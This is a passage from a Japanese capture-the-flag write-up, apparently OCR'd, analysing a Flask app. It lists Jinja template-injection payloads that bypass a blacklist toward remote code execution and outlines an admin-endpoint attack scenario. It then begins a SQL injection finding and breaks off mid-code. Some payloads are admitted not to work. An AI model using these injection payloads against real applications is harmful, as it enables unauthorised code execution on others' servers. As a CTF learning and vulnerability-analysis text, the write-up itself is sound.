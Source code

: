 ### エクスプロイト方法

#### 1. フラグ読み取り（Jinjaテンプレート）
ブラックリストは小文字でチェックしているが、大文字を使えばバイパス可能：

```python
{{LIPSUM.__GLOBALS__}}
{{CYCLER.__INIT__.__GLOBALS__}}
{{JOINER.__INIT__.__GLOBALS__}}
```

ただし、`__`（アンダースコア2つ）がブラックリスト入りなので、以下のような方法でバイパス：

```jinja2
{{LIPSUM|attr('\x5f\x5fglobals\x5f\x5f')}}
```

または、より簡単に：

```jinja2
{{LIPSUM|attr('X'*2+'globals'+'X'*2)|replace('X','_')}}
```

ただし`|`もブラックリスト入りなので、フィルターも使えません。

#### 2. より実践的なエクスプロイト
`{{}}`は使えますが、ブラックリストが厳しいため、直接的な方法は制限されています。しかし、以下のような方法が考えられます：

```jinja2
{{7*7}}  # 計算テスト（49が返る）
```

ブラックリストに含まれない文字列を組み合わせることで、RCEが可能：

```jinja2
{{url_for.__globals__}}
```

`url_for`はブラックリストにないため、これを起点に探索可能です。

### 攻撃シナリオ
1. 管理者アカウントでログイン（脆弱性4参照）
2. `/admin/ban_user`にPOSTリクエストを送信
3. `username`パラメータにSSTIペイロードを挿入
4. テンプレートエンジンが実行され、任意のコード実行が可能

---

## 🔴 脆弱性2: SQL Injection

### 場所
**ファイル**: `routes.py`  
**行**: 186  
**エンドポイント**: `/collab/request`

### 脆弱性の詳細
```python
@app.route('/collab/request', methods=['POST'])
def send_collab():
    if not is_localhost():
        return jsonify({'error': 'Access denied.'}), 403
        
    current_uuid = session.get('uuid')
    if not current_uuid:
        return 'Unauthorized', 401

    user = get_user_by_uuid(session['uuid'])
    if not user:
```